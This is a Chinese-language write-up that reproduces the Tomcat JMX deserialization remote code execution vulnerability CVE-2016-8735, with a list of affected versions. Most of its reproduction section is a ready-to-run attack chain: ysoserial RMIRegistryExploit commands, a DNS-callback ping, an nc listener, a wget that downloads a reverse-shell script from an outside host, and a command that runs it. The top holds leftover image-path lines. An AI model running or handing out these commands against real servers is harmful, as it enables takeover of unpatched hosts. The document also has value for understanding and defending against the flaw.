






# （CVE-2016-8735）Tomcat 反序列化漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3197](https://www.zhihuifly.com/t/topic/3197)

# （CVE-2016-8735）Tomcat 反序列化漏洞

## 一、漏洞简介

该漏洞与之前Oracle发布的mxRemoteLifecycleListener反序列化漏洞（CVE-2016-3427）相关，是由于使用了JmxRemoteLifecycleListener的监听功能所导致。而在Oracle官方发布修复后，Tomcat未能及时修复更新而导致的远程代码执行。
该漏洞所造成的最根本原因是Tomcat在配置JMX做监控时使用了JmxRemoteLifecycleListener的方法。

## 二、漏洞影响

ApacheTomcat 9.0.0.M1 到9.0.0.M11
ApacheTomcat 8.5.0 到8.5.6
ApacheTomcat 8.0.0.RC1 到8.0.38
ApacheTomcat 7.0.0 到7.0.72
ApacheTomcat 6.0.0 到6.0.47

## 三、复现过程

### 漏洞利用条件：

外部需要开启JmxRemoteLifecycleListener监听的10001和10002端口，来实现远程代码执行。

### 构造命令

Win ping一次命令：

```
ping -n 1 qjkpla.ceye.io 
```

Linux ping 一次命令：

```
ping -c 1 qjkpla.ceye.io 
```

利用Ceye回显看是否存在漏洞:

```
java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口 Groovy1 "ping -c Groovy1.test.qjkpla.ceye.io" 
```



DNS回显能返回数据，说明执行了Ping命令，也就是说漏洞存在



直接NC监听服务：

```
nc -l -vv 12555 
```



然后构造命令：下载我们的反弹脚本:(之前用bash命令反弹没有成功所以使用Python脚本进行反弹)

```
java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口 Groovy1 "wget http://rinige.com/back.py -O /tmp/x.py" 
```

执行完此命令继续构造命令，去执行刚在wget的脚本

```
java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口Groovy1 "python /tmp/x.py 反弹主机地址 反弹端口" 
```



成功反弹：



